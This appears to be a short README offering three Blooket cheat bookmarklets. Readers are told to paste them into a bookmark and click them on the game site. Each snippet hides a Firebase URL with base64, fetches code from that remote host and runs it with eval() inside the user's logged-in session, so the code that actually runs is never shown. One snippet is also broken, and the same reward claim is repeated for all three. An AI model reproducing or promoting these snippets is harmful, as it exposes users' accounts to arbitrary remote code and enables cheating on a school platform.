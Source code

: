 # Blooket  
infinatetokens.js:

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxBZGRUb2tlbnMuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 900 daily tokens and 800XP.

.
..
Allblooksingame.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxHZXRBbGxCbG9va3MuanNvbg==')).then(keep => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 900 daily tokens and 800XP.

.
..
Everyawnsercorrect.js

fetch(atob('aHR0cHM6Ly9zY2hvb2wtY2hlYXRzLTFhNGVlLWRlZmF1bHQtcnRkYi5maXJlYmFzZWlvLmNvbS9nbG9iYWxFdmVyeUFuc3dlckNvcnJlY3QuanNvbg==')).then(res => res.text()).then(t => eval(JSON.parse(t)));

Just copy and paste into a bookmark for blooket marketplace and then click for 900 daily tokens and 800XP.
